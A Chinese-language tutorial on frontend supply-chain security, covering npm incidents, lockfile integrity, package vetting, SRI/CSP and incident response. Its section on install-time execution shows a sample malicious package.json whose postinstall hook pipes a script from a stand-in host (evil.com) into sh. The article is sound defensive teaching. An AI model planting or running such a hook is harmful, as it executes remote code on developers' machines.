


# 前端安全之供应链安全

## 从「一行代码偷遍全世界」的两个真实事件说起

> 本篇是《前端安全系列》收官——攻击面从「你的代码」移到「你依赖的代码」。

```
事件1: 事件流（2018）—— 一个被攻击者接管维护权的 npm 包，
       每月下载 800 万次；更新后注入代码窃取用户的比特币钱包
事件2: ua-parser-js（2021）—— 正常维护者邮箱被钓，发布的"新版本"含挖矿/后门
       开发者 npm install 的那一刻，恶意代码跑在了【构建机/开发机】上 ⚠️
```

⭐⭐⭐ 供应链攻击的本质：**你信任的每一层（包作者/发版通道/CDN/构建机）都是攻击面**。前端项目的 1000+ 间接依赖，每一个都是潜在入口。

## 现象与直觉解释

前端的信任链与攻击点对照：



*图 · 六环信任链，每一环都有对应的攻击手法*

```
信任链: 包作者 → npm 发版 → 你的 lock → 构建机 → CDN → 用户浏览器
攻击点: 账号被盗/恶意接手 │ 恶意新版本 │ 幽灵/投毒依赖 │
        postinstall 脚本 │ CDN 篡改 │ 第三方脚本变更
```

### install 即执行：最容易被忽视的入口 ⭐⭐

```jsonc
// 恶意包的经典手法: package.json 的 scripts 字段
{
  "name": "innocent-tool",
  "scripts": {
    "postinstall": "curl https://evil.com/x.sh | sh"   // npm install 时自动执行！
  }
}
// ⚠️ 你装的不是代码库，是「安装时执行任意命令的权限」
```

## 深入原理：四道防线

### 第一道：锁定（Lock）与版本纪律 ⭐⭐

```
lock 提交仓库（engineering-001 的复利）:
  ✓ 团队与 CI 装的是「验证过的精确版本」—— 新恶意版本不会自动混入
  ✓ integrity 哈希校验 —— 包内容被篡改（哪怕 registry 被攻破）会装失败 ⭐
升级纪律:
  依赖更新走「独立 MR + 变更审查」—— 而不是顺手 ^ 自动漂移
  npm audit / pnpm audit 进 CI（已知漏洞的门禁）
```

### 第二道：依赖引入的审查清单 ⭐⭐

```
引入一个新包前（五问）:
  ① 周下载量与维护活跃度（年久失修 = 定时炸弹）
  ② 间接依赖数量（npm ls --all 一眼看清爆炸半径）
  ③ 有无替代的更小实现（手写 20 行 vs 引入 200KB 的包？）
  ④ 发布者身份与 org 归属（个人包被接管的高危案例最多 ⭐）
  ⑤ typescript/文档质量（认真维护的代理信号）
安装姿势:
  npm install --ignore-scripts   // 特殊场景：不执行包脚本（一次性审查陌生包）⭐
```

### 第三道：CDN 与静态资源——SRI ⭐⭐⭐

```
问题: 你从 CDN 引第三方脚本 —— CDN 被攻破/作者发恶意版 = 你的用户全体中招
方案: SRI（Subresource Integrity）—— 内容哈希锁死 ⭐
  <script src="https://cdn.example.com/lib.js"
          integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC"
          crossorigin="anonymous"></script>
  // 文件内容与哈希不符 → 浏览器拒绝执行 ✅（篡改即失效）
配套: CSP 锁定允许的 CDN 域名清单（security-001）—— 双保险
自查: 你页面里【没有 integrity 属性的第三方 <script>】就是敞开的大门
```

### 第四道：构建与运行时收权 ⭐⭐

```
构建机:
  · 独立 CI 环境（容器化）—— postinstall 恶意脚本的爆炸半径限在一容器内
  · npm token/私服凭据最小权限；发布走双因素（2FA）⭐
运行时（页面）:
  · 第三方脚本收敛到「自托管拷贝」（下载进 repo + SRI）而非跟随上游漂移 ⭐
  · CSP 的 script-src 白名单 = 第三方脚本的准入制度
  · 定期 review window 上的全局对象暴露面（埋点 SDK 要哪些权限?）
```

### 事件响应预案（真出事时）⭐

```
① 检测: npm audit 告警 / 社区披露 / 自建依赖监控（Socket/Snyk 类）
② 阻断: lock 回退到上一个已知安全版本; 私服 mirror 冻结
③ 评估: 恶意包的 postinstall 跑了什么?（翻 scripts/源码 diff）
       —— 是否接触了凭据(.npmrc/.env/git config)→ 全轮换 ⭐
④ 复盘: 引入流程补丁（审查清单加项/CI 加门禁）
```

## 回看开篇

两个真实事件的共同点：**攻击者没有攻击你的代码，攻击的是「你与上游之间的信任」**。四道防线的逻辑：lock+integrity 锁住「装到的东西没变」，引入审查降低「装错东西」的概率，SRI 锁住「运行时加载的东西没变」，容器化与 CSP 收窄「出事后的爆炸半径」——**供应链安全的本质是给每一环信任加上验证**。

## 实战延伸

**1. 面试答题骨架**：「供应链攻击利用的是依赖信任链——npm 包账号被接管、恶意新版本或 postinstall 脚本都会在你安装时执行任意代码。防御四道线：提交 lock 并依赖 integrity 哈希校验，保证安装内容与验证过的版本逐字节一致、升级走独立审查；引入新包执行五问审查（活跃度、间接依赖量、替代实现、发布者身份、维护质量），陌生包可用 ignore-scripts 安装审查；第三方脚本用 SRI 内容哈希锁死并配 CSP 域名白名单，成熟做法是自托管拷贝；构建机容器化、发布开双因素、凭据最小权限。事件响应按检测、阻断、评估 postinstall 行为、轮换可能泄露的凭据、复盘加固流程。」

**2. 一道自查题**：数一数你项目的 `index.html` 有几个无 SRI 的第三方 script、package.json 有几个 scripts 字段来历不明的依赖——那就是当下的供应链敞口。

## 图解总结



*图 · 四道防线 + 出事之后的五步*

```
信任链: 包作者→npm发版→lock→构建机→CDN→浏览器   每一环都是攻击面
最狠入口: postinstall —— install 即执行任意命令 ⚠️

四道防线:
 ①锁定: lock入库+integrity哈希 │ 升级独立MR │ audit进CI
 ②引入审查: 五问(活跃/依赖量/替代/发布者/质量) │ --ignore-scripts 审陌生包
 ③SRI: <script integrity="sha384-…"> —— 篡改即拒载 ⭐ + CSP域名白名单
       进阶: 第三方脚本自托管拷贝（不跟随上游漂移）
 ④收权: CI容器化 │ 发布2FA │ 凭据最小权限
响应: 检测→lock回退→查postinstall行为→轮换凭据→复盘加门禁
```

## 总结

- 供应链攻击打击信任链本身；postinstall 是「安装即执行」的入口；
- lock + integrity 锁内容；升级必须独立审查；
- 新包引入五问；陌生包 ignore-scripts 审查；
- SRI + CSP 锁第三方脚本；自托管拷贝是进阶；
- 构建收权与事件响应预案闭环。

**面试一句话回答**：供应链攻击针对的是依赖信任链——包作者账号被接管、恶意版本发布或 package.json 的 postinstall 脚本都会在开发者执行安装时自动运行任意代码，历史上事件流与 ua-parser-js 等知名包都真实发生过。防御分四层：提交 lock 文件并依赖其中的 integrity 哈希校验，确保安装内容与验证过的版本逐字节一致，依赖升级走独立变更审查；新包引入前执行活跃度、间接依赖规模、可替代实现、发布者身份与维护质量的五问审查，审查陌生包可配合 ignore-scripts；第三方脚本用 SRI 完整性哈希锁死、配合 CSP 域名白名单，成熟做法是自托管拷贝不跟随上游漂移；构建机容器化、npm 发布开启双因素、凭据最小权限。一旦出事按检测、回退 lock、分析恶意脚本行为、轮换可能泄露的凭据、复盘加固的流程响应。

## 思考题

1. 「幽灵依赖」（engineering-001）在安全视角的新危害？（未声明的直接使用 → 升级/清理时不知情移除或静默更换版本——审计盲区）
2. 私有 npm 代理（verdaccio/Artifactory）的供应链价值？（代理层缓存+白名单+发布审计——企业级中间人换安全）
3. lock 的 integrity 哈希保护的是哪一段？（registry→本地 的传输篡改；防不了「作者发布的恶意版本本身」——两段信任的分界 ⭐）
4. 开放讨论：全公司 200 个前端仓库——如何做「统一依赖治理」？（共享审计基座+中央告警+lock 策略门禁——平台化思路）。

（思考题解析将同步录入小程序题库，关联本文 id：security-005）

## 参考文献：

- npm 官方 — package scripts 与 integrity 机制
- MDN — Subresource Integrity
- Socket / Snyk 官方博客（供应链事件分析）
- 本课程《engineering-001 依赖管理》《security-001 CSP》《architecture-005 监控》（联防体系）
